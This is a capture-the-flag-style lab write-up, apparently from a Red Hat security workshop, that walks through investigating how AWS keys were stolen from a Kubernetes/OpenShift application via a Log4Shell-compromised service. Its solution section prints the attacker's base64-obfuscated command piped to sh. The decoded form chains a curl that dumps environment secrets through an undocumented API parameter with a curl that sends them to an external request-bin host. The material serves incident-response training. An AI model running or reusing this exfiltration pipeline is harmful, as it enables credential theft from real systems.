 ```yaml
---
title: "Attack Flow Analysis"
draft: false
weight: 3
---
```


## Context

It’s December 19, 2021 (yes, you read that right, two years earlier, to the day).

The AWS Cloud Team is alerting you that an AWS API key has been compromised and used to deploy crypto mining software.
Fortunately, your company prohibits the reuse of API keys for several uses: you are therefore certain of the origin of this data leak: it is the **visa-processor** application which uses this key. API.

```
$ oc rsh -n data-theft deploy/visa-processor /bin/sh -c 'env' | fate | grep ^A
APP_ID=visa-processor
APP_ROOT=/opt/app-root
AWS_ACCESS_KEY_ID=Easy, peasy!
AWS_SECRET_ACCESS_KEY=Catch me if you can!
```

**Note**: AWS API keys were redacted in the lab to avoid an unnecessary heart attack for **Red Hat** security teams. They were replaced by two humorous messages. :)

At the same time, the network team warns you of the presence of an unusual outgoing flow destined for servers also hosted on AWS.

```
$ dig +short public.requestbin.com
54.192.137.16
54.192.137.101
54.192.137.26
54.192.137.85
```

```
$ whois 18.155.129.83 |grep OrgTechName
OrgTechName: Amazon EC2 Network Operations
```
## Objective of the exercise

Your mission, if you accept it, is to investigate the Lab environment in search of the path taken by the attacker to perpetrate this data exfiltration.
The objective is achieved when you find the URL of the **Request Bin** used by the attacker to exfiltrate the API key.

![Request Bin showing exfiltrated AWS API key](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-Request-Bin.png)

## Up to you !

Clues:

- Start with the **Violations** section and filter the view with `deployment:visa-processor namespace:data-theft`
- Switch to the **Network Graph** section and display the flows of the cluster **local-cluster**, namespace **data-theft**. Click on the **information-service** and **back-office** deployments and compare their flows. Which one seems most suspicious to you?
- Return to the **Violations** section and filter the view with the name of the deployment that seems most suspicious to you.

## Solution

{{%expand "Solution" %}}

Navigate to the **Violations** section and filter the view with `deployment:visa-processor namespace:data-theft`.

![visa-processor violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-visa-processor-violations.png)

We note the presence of CVE but nothing very suspicious.

Switch to the **Network Graph** section and view the flows from the cluster **local-cluster**, namespace **data-theft**.

Click on the **back office** deployment.

![back-office network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-back-office-network-graph.png)

The observed flows appear legitimate.

Click on the **information-service** deployment.

![information-service network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-network-graph.png)

Observe the inbound flow from the OpenShift router and the outbound flow to AWS.
Also note that the **information-service** deployment communicates with the **visa-processor** deployment.

Navigate to the **Violations** section and filter the view with `deployment:information-service namespace:data-theft`.

![information-services violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violations.png)

Note the presence of the **Log4Shell** vulnerability as well as suspicious behavior at runtime: **Shell Spawned by Java Application**.

Click on the **Shell spawned by Java Application** violation.

![information-services violation Shell Spawned by Java Application](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violation-shell-spawned.png)

Observe the command executed:

```
echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5 IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d | sh
```

Decode base64 encoded content (use the "base64 -d" command):

```
$ echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR 5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d

curl -sk -d '{\"numberOfIdentities\":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity | curl -sk --data-binary @- -H 'Content-Type: text/plain' https://enyd1rw3pwz3a.x.pipedream.net
```

The first **curl** command exploits an application bug to retrieve the AWS API key.

Normally, the **visa-processor** component returns the value of its **APP_ID** environment variable:

```
$ curl -sk -X POST http://visa-processor.data-theft.svc:8080/getApplicationIdentity
{
    "APP_ID": "visa-processor"
}
```

But by passing an additional undocumented argument, we can retrieve the following environment variables (in alphabetical order):

```
$ curl -sk -d '{"numberOfIdentities":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity

{
    "APP_ID": "visa-processor",
    "APP_ROOT": "/opt/app-root",
    "AWS_ACCESS_KEY_ID": "Easy, peasy!",
    "AWS_SECRET_ACCESS_KEY": "Catch me if you can!"
}
```

The second **curl** command exfiltrates data via the **Request Bin** service.
Connect to [https://enyd1rw3pwz3a.x.pipedream.net](https://enyd1rw3pwz3a.x.pipedream.net) and confirm that the exfiltrated data is present.

{{% /expand%}}
